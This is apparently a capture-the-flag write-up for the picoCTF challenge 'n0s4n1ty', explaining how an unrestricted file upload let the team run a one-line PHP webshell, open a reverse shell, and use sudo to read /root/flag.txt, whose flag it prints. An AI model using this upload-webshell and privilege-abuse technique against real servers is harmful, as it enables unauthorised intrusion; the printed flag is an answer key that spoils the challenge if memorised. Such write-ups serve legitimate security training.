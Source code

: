 ## n0s4n1ty

Classic overthinking. Initially Allan thought the challenge had to do with directory traversal but Faraz noted that we could upload anything.

Testing a simple PHP script
```php
<?php shell_exec('ls'); ?>
```

shows us that we can run arbitrary commands on the server.

After some mild trolling around, our final solution came using a shell from [revshells.com](https://www.revshells.com/) which we used to run the following commands
```bash
ls -l /
# drwx------   1 root   root     22 Mar  6 03:56 root

sudo ls /root
# flag.txt

sudo cat /root/flag.txt
# picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0}
```
